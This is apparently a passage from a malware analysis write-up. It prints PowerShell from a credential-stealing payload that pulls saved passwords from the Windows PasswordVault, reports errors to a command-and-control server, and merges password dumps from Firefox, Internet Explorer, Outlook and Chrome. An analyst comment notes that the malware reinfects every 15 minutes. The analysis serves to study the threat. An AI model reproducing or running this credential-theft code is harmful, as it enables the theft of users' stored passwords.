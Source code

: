 ```csharp
                    $user = $allCreds[$i]
                    $pwd = $allCreds[$i + 1]
                    $ieInfo[$url] += @{ [string]$user = [string]$pwd };
                  }                                            
                }
              }
            }
          }
        }
      }
    }
    if(([int32]([string][System.Environment]::OSVersion.Version.Major + [string][System.Environment]::OSVersion.Version.Minor)) -ge 62) # -> greater than or equal Windows 8 OS -> Password Vault improved
    {
      [void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime];
      $vault = New-Object Windows.Security.Credentials.PasswordVault;
      $allCreds = $vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
      foreach($cred in $allCreds) 
      {
        $url = ([System.Uri]$cred.Resource).Host
        if($ieInfo[$url] -eq $null) { $ieInfo[$url] = @(); }
        $ieInfo[$url] += @{ [string]$cred.UserName = [string]$cred.Password }
      }
    }
    return @{"logs" = "$global:log"; "error" = $ieError; "info" = $ieInfo}    
  }
  catch { SendStringToC2 "crederror=ERR:ie_dump: $($_.Exception.Message)";}
}

```

<h6>The payload executes the functions and merges all the data. Why do a better code and easily maintainable by merging in one function with a switch condition for redirect the common part to the same code and avoid to do the same execution but this consistent with the fact this reinfect each 15 minutes with the logic of thought (not very stealthy but it works).</h6>

```csharp
# Execute password dump
$ffInfo = ff_dump
$ieInfo = ie_dump
$olInfo = ol_dump
$chromeInfo = chrome_dump

$allInfo = @{"logs" = "$global:log"; "error" = "SUCCESS"; "info" = @{}}    
# Merge all the data
mergeInfo $olInfo $allInfo
mergeInfo $chromeInfo $allInfo
mergeInfo $ieInfo $allInfo
mergeInfo $ffInfo $allInfo

```
